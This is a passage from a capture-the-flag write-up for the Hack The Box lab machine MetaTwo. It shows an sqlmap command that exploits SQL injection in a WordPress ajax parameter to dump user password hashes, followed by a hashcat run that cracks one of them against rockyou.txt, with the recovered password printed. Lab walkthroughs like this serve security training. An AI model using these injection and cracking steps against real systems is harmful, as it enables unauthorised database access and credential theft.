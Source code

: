 ```bash
┌──(kali㉿Kali)──[22:59:12]──[~/htb/Machines/MetaTwo]
└─$ sqlmap -r ajax.req -p total_service --batch -D blog -T wp_users -C user_nicename,user_pass --dump

<...SNIP...>

Database: blog
Table: wp_users
[2 entries]
+---------------+------------------------------------+
| user_nicename | user_pass                          |
+---------------+------------------------------------+
| admin         | $P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV. |
| manager       | $P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70 |
+---------------+------------------------------------+
```
This gets me 2 password hashes for `admin` and for `manager`. I copy these hashes to my host (for better gpu performance) and run hashcat on them. The hash for `manager` cracks, but not admin.
```bash
   ┌──(clayton㉿Nucleus)──[23:04:56]──[~/hash]
└─$ hashcat -a 0 --username hashes /opt/seclists/Passwords/Leaked-Databases/rockyou.txt -O -w 3
hashcat (v6.2.6) starting in autodetect mode

<...SNIP...>

$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70:partylikearockstar     
Approaching final keyspace - workload adjusted.           

                                                          
Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 400 (phpass)
Hash.Target......: hashes
Time.Started.....: Wed Apr 10 23:05:14 2024 (8 secs)
Time.Estimated...: Wed Apr 10 23:05:22 2024 (0 secs)
Kernel.Feature...: Optimized Kernel
Guess.Base.......: File (/opt/seclists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2062.9 kH/s (46.54ms) @ Accel:128 Loops:1024 Thr:256 Vec:1
Recovered........: 1/2 (50.00%) Digests (total), 1/2 (50.00%) Digests (new), 1/2 (50.00%) Salts
Progress.........: 28688770/28688770 (100.00%)
Rejected.........: 3226/28688770 (0.01%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:1 Amplifier:0-1 Iteration:7168-8192
Candidate.Engine.: Device Generator
Candidates.#1....: 047052287 -> squarenut
Hardware.Mon.#1..: Temp: 41c Fan: 36% Util: 68% Core:1980MHz Mem:7000MHz Bus:8

<...SNIP...>

┌──(clayton㉿Nucleus)──[23:05:23]──[~/hash]
└─$ hashcat -a 0 --username hashes /opt/seclists/Passwords/Leaked-Databases/rockyou.txt -O -w 3 --show

<...SNIP...>

manager:$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70:partylikearockstar
```
